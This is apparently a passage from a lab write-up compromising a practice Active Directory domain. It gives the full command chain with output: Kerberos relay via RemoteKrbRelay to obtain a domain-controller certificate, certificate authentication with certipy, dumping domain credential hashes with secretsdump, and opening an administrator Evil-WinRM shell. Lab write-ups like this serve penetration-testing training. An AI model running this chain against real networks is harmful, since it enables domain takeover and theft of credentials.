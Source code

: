 Check #maq for add computer

    ➜  certipy nxc ldap DC-JPQ225.cicada.vl -u 'Rosie.Powell' -p 'Cicada123' -k -M maq
    LDAP        DC-JPQ225.cicada.vl 389    DC-JPQ225.cicada.vl [*]  x64 (name:DC-JPQ225.cicada.vl) (domain:cicada.vl) (signing:True) (SMBv1:False)
    LDAP        DC-JPQ225.cicada.vl 389    DC-JPQ225.cicada.vl [+] cicada.vl\Rosie.Powell:Cicada123 
    MAQ         DC-JPQ225.cicada.vl 389    DC-JPQ225.cicada.vl [*] Getting the MachineAccountQuota
    MAQ         DC-JPQ225.cicada.vl 389    DC-JPQ225.cicada.vl MachineAccountQuota: 10

windows abuse

    C:\Users\rosie.powell\Downloads>RemoteKrbRelay.exe -adcs -template DomainController -victim dc-jpq225.cicada.vl -target dc-jpq225.cicada.vl -clsid d99e6e74-fc88-11d0-b498-00a0c90312f3
    [SNIP]
    [+] Certificate in PKCS12:
    MIACAQMwgAYJKoZIhvcNAQcBo...................
get pfx

    echo -ne 'MIACAQMwgAYJKoZI...YXdovSkEFBKbgpS6xeKbK9DaHGZVKzo91TW/AgIEAAAA' | base64 -d >
    cert.p12
    ➜  certipy certipy-ad auth -pfx cert.p12 -dc-ip 10.10.98.13 -domain cicada.vl

# secretsdump

    ➜  certipy  impacket-secretsdump -k -no-pass -dc-ip dc-jpq225.cicada.vl cicada.vl/dc-jpq225\$@cicada.vl@dc-jpq225.cicada.vl 

    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:85a0da53871a<redacted>::

admin cchache

    ➜  certipy impacket-getTGT -hashes ':<redacted>' -dc-ip dc-jpq225.cicada.vl cicada.vl/administrator
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Saving ticket in administrator.ccache

    export KRB5CCNAME=administrator.ccache

shell 

    ➜  certipy nxc ldap dc-jpq225.cicada.vl --use-kcache --kdcHost dc-jpq225.cicada.vl
    LDAP        dc-jpq225.cicada.vl 389    DC-JPQ225.cicada.vl [*]  x64 (name:DC-JPQ225.cicada.vl) (domain:cicada.vl) (signing:True) (SMBv1:False)
    LDAP        dc-jpq225.cicada.vl 389    DC-JPQ225.cicada.vl [+] cicada.vl\Administrator from ccache 

lets access with ldap

    ➜  certipy evil-winrm -r cicada.vl --ip DC-JPQ225.cicada.vl
                                            
    Evil-WinRM shell v3.7
                                            
    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                            
    Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                            
    Info: Establishing connection to remote endpoint
    *Evil-WinRM* PS C:\> whoami
    cicada\administrator

